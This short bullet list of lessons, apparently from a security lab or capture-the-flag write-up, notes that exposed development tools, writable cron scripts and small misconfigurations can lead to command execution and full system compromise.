- Web enumeration can quickly lead to full command execution when development tools are exposed
- Writable scripts executed by cron are a common privilege escalation vector
- Small misconfigurations can chain into full system compromise
